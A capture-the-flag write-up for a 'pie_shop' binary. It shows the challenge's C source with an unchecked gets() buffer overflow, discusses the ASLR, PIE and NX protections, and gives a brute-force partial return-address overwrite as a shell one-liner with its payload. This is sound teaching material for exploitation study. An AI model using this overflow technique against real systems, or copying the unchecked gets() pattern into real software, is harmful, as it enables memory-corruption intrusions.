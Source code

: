## exploit
Source code:
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

void get_pie() {
	printf("What type of pie do you want? ");

	char pie[50];
	gets(pie);

	if (strcmp(pie, "apple") == 0) {
		printf("Here's your pie!\n");
		printf("      _,..---..,_\n");
		printf("  ,-\"`    .'.    `\"-,\n");
		printf(" ((      '.'.'      ))\n");
		printf("  `'-.,_   '   _,.-'`\n");
		printf("    `\\  `\"\"\"\"\"`  /`\n");
		printf("      `\"\"-----\"\"`\n");
	} else {
		printf("Whoops, looks like we're out of that one.\n");
	}
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("Welcome to the pie shop! Here we have all types of pies: apple pies, peach pies, blueberry pies, position independent executables, pumpkin pies, rhubarb pies...\n");
	get_pie();

	return 0;
}
```
file:

```
pie_shop: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9318df53faeaad841153110c8ded995df882498b, not stripped
```

checksec:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The vulnerability was in `get_pie` function, in fact there was a `gets` that allowed to overwrite RA without any kind of checks or canary.

Ok but where to jump?

Answer this question was not easy, in fact we had:

* ASLR enabled
* PIE code 
* NX stack
* no leak avaiable

```
$ cat /proc/sys/kernel/randomize_va_space
2
```

This combination was terrible especially with PIE code:

this kind of protection makes unpredicatble where code segment were loaded and changed every time we executed binary. Of course the offsets, in the code section, remained the same. For istance we know that the offset of `flag` function ends with `1a9`, the `gets_pie` with `1bc` etc.

I explored two alternativies:

*  ### ret2vsyscall

![vmmap](https://i.ibb.co/vstZRxr/gdb-vmmap.png)
    as we can see in gdb we had vsyscall, this section load some functions at the same location without ASLR in order to speed up some system call. This could be useful in order to build some ROP chain but:

1. any attempts to jump into an arbitrary instruction inside this section cause a segfault.
    
![segfault](https://i.ibb.co/svmfLdb/gdb-crash-vsys.png|width=10)


2. the syscall inside this pages are:
        * __NR_gettimeofday
        * __NR_time
        * __NR_getcpu
        here maybe the interesting gadget could be RET but we are already able to jump at any location



*  ### partial overwrite

    The idea was to write the least significant 2 bytes of RA - in fact the offsets of instructions in code segment remained the same. Moreover I had another problem, to reach RA I needed to write `72` bytes plus `2` bytes to overwrite RA's least significant bytes, unfortunetley the len of malicious input was not multiple of 8, so a `NULL` byte was automatically appended.
    
    However:
    The goal is jump into `flag` procedure. Without overflow anything, the stack frame in `gets_pie` procedure contained RA to main procedure. So `5` of these bytes - the most significant ones - were the same as `flag` procedure, the problem was the less significant 3 bytes.
    
    Of these 3 bytes the least significant one was always `a9`, so remains 16 bit to guess and 8 of these (that i wasn't able to control) were: `0x00`. 
    
    The goal at this point was to find at least one execution that had `flag` procedure loaded into an address that ends with: `....0011a9`


```bash
for i in `seq 1 10000`; do python -c 'print "a"*72+"\xa9\x11"' | ./pie_shop 2> /dev/null | grep -i actf; done
```



##### flag: actf{a_different_kind_of_pie}



